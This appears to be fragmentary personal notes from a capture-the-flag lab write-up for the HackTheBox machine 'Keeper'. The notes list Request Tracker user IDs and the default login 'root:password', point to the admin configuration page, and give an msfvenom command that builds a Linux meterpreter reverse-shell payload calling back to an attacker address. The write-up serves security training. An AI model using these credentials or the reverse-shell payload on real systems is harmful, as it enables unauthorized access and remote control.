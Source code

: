 # Keeper

http://tickets.keeper.htb/rt/User/Summary.html?id=number 1 - RT System itself 2 - root 27 - lnorgaard 29 - webmaster

credentials `root:password`

<figure><img src="../../../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Config file : http://tickets.keeper.htb/rt/Admin/Tools/Configuration.html

```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -o payload -f elf -e cmd/perl
```
